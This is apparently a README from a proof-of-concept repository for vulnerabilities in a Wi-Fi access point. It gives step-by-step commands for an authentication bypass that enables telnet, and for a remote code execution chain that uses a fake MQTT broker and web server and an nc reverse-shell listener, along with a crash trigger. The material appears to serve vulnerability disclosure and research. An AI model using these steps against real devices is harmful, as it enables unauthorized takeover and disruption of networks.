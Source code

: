 # Proof of concept (PoC) for vulnerabilities

Those vulnerabilities requires to have an access to the administration web interface at 192.168.188.253.
In my case, I work on Linux with Wi-Fi (adapter wlp0s20f3) so I have to do the following command:

```bash
sudo ip addr add 192.168.188.182/24 dev wlp0s20f3
```

## Install dependencies for scripts

I suggest to do it from a Python3 virtual environment:

```bash
python3 -m pip install -r requirements.txt
```

Docker must be installed for the rce proof of concept.

## Broken authentication

The broken authentication proof of concept is the script *broken-auth/poc.py*.
It can be executed using the commands:

```bash
cd broken-auth
python3 broken-auth.py
```

The script authenticate to the access point (AP) web server: it gets a token.
Then it list logs and enable telnet to proove that it can perform authenticated actions.

## Remote code executions (RCE) and crash in cloud-client binary

First thing to do is to update the configuration file *rce/configuration.ini*.
I suggest to use the same computer to host all component so all the 'IP' fields must be the same.

Go to the directory 'rce'.

1. Build then start the fake broker: container:

    Build with:

    ```bash
    cd mqtt
    docker build --tag 'rce' .
    ```

    Start with:

    ```bash
    docker run -p 1883:1883 rce
    ```

2. Start the fake web server: webserver.py

    ```bash
    python3 webserver.py
    ```

3. Update the AP cloud server with our fake web server: update_cloud_server.py

    ```bash
    python3 update_cloud_server.py
    ```

    Logs of our webserver must log that the AP reached the endpoints  */cloudnetlot/backend/getclient* and */cloudnetlot/backend/getbind*.

4. Start listener to receive shell from the AP.
    The port must match the reverse shell port in *rce/configuration.ini*. e.g:

    ```bash
    nc -lvp 7891
    ```

5. Send payload using MQTT protocol: cloud.py

    ```bash
    python3 cloud.py
    ```

    There are two RCE in this files, functions are *set_rce* and *upgrade_rce* so comment the right one in the main.
    By default *set_rce* is not commented.
    There is also a crash, function *do_dos_in_radioid*.
    The listener perviously started receives the shell.
